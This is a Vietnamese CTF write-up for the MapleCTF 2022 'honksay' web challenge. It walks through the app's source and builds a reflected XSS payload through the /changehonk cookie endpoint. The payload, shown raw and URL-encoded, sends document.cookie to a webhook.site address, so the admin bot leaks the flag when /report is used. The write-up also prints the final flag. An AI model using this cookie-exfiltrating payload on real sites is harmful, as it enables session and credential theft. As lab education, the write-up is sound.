

# MAPLECTF 2022

## honksay

Challange cho ta một trang web có thể nhập input để phàn nàn nếu con ngỗng có nói bậy :v 

Ngoài ra challange còn cung cấp cho ta source code, sau khi tải file .gz và giải nén ta dùng docker để khởi tạo challange trên local

Sau khi khởi tạo challenge sẽ chạy ở port 9988 

Ngắm ngía một chút source code có thể để ý thấy điều này:
```html
    ${goosemsg === '' ? '': `<h1> ${goosemsg} </h1>`}
    </img>
    ${goosecount === '' ? '': `<h1> You have honked ${goosecount} times today </h1>`}

    <form action="/report" method=POST style="text-align: center;">
        <label for="url">Did the goose say something bad? Give us feedback.</label>
        <br>
        <input type="text" id="site" name="url" style-"height:300"><br><br>
        <input type="submit" value="Submit" style="color:black">
    </form>
</html>
```
Hai biến goosemsg và goosecount sẽ được inject vào html nên ta sẽ thử dùng XSS để exploit. Và giá trị 2 biến này tương ứng với honk và honkcount trong cookie

Nhìn thêm vào source code ta thấy có đường dẫn **/changehonk** nhận querry string là newhonk và gán honk = newhonk
```javascript
app.get('/changehonk', (req, res) => {
    res.cookie('honk', req.query.newhonk, {
        httpOnly: true
    });
    res.cookie('honkcount', 0, {
        httpOnly: true
    });
    res.redirect('/');
});
```
Tóm lại ta chỉ cần thay đổi được giá trị của honk trong cookie thành payload XSS, để làm được điều đó thì ta lợi dụng logic của **/changehonk** 

Từ đó ta có payload:
```bash
http://localhost:9988/changehonk?newhonk[message]=<script>var i = new Image; i.src="https://webhook.site/b4f4ffa4-09ab-4ea7-8b1f-949b5902691c/?"+document.cookie;</script>

URL Encode:
http://localhost:9988/changehonk?newhonk[message]=%3Cscript%3Evar%20i%20%3D%20new%20Image%3B%20i.src%3D%22https%3A%2F%2Fwebhook.site%2Fb4f4ffa4-09ab-4ea7-8b1f-949b5902691c%2F%3F%22%2Bdocument.cookie%3B%3C%2Fscript%3E
```

Ở đây ta dùng [webhook](https://webhook.site/) để nhận request có chứa cookie gửi về từ challange (thay url webhook trong payload bằng url webhook của bạn)


Tuy nhiên ta không nhận về được flag  


Nhìn thêm vào source code ta thấy **/report** có gọi tới hàm visit trong file goose.js
```javascript
app.post('/report', (req, res) => {
    const url = req.body.url;
    goose.visit(url);
    res.send('honk');
});
```
Hàm visit trong goose.js
```javascript
const puppeteer = require('puppeteer');
const FLAG = process.env.FLAG || "maple{fake}";

async function visit(url) {
  let browser, page;
  return new Promise(async (resolve, reject) => {
    try {
      browser = await puppeteer.launch({
        headless: true,
        args: [
          '--no-sandbox',
          '--disable-default-apps',
          '--disable-dev-shm-usage',
          '--disable-extensions',
          '--disable-gpu',
          '--disable-sync',
          '--disable-translate',
          '--hide-scrollbars',
          '--metrics-recording-only',
          '--mute-audio',
          '--no-first-run',
          '--safebrowsing-disable-auto-update'
                ]
            });
        page = await browser.newPage();
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost',
            samesite: 'none'
        });
        await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));
        console.log(page.cookies());
        await new Promise(resolve => setTimeout(resolve, 500));
        console.log("admin is visiting url:");
        console.log(url);
        await page.close();
        
        console.log("admin visited url");
        page = null;
    } catch (err){
        console.log(err);
    } finally {
        if (page) await page.close();
        console.log("page closed");
        if (browser) await browser.close();
        console.log("browser closed");
        //no rejectz
        resolve();
        console.log("resolved");
    }
  });
};


module.exports = { visit }
```
Ta có thể tạm hình dung hàm vist sẽ nhận para là url sau đó set cookie tên là flag (cái ta đang tìm) và cuối cùng thực hiện duyệt web tới url với cookie được set

Vậy để lấy được flag ta sẽ truyền payload đã nêu ở trên vào param url của **/report** thông qua methods POST. Khi hàm visit thực thi, payload sẽ gửi request cho [webhook](https://webhook.site/) với cookie lúc này đã có flag


Cuối cùng ta thực hiện exploit trong challange thay vì local để lấy flag. Tuy nhiên payload sẽ vẫn có url là **http://localhost:9988/......**. Vì domain đã được khai báo là "localhost" trong hàm visit 
```javascript
page = await browser.newPage();
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost',
            samesite: 'none'
        });
```

> **_FLAG:_**  maple{g00segoHONK}